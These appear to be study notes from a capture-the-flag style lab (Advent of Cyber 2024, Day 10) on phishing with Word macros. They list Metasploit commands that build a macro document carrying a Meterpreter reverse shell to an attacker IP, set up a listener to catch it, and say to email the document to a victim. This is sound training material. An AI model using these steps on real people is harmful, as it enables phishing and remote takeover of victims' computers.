 
2024-12-21 12:54

Source: #AOC24 
### Macros

In computing, a macro refers to a set of programmed instructions designed to automate repetitive tasks
To add a macro to an MS Word document for instance, we click on the **View** menu and then select **Macros**
### Creating the Malicious Document

 you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp`  it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro`  it is a module to create a document with a macro
- `set LHOST ATTACKBOX_IP` specifies the IP address of the attacker’s system
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal
### Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
- `set LHOST ATTACKBOX_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `exploit` starts listening for incoming connections to establish a reverse shell

ship the macro to the victim via email and wait for them to click on the macro, once they do so we get a shell 
### References
Day 10 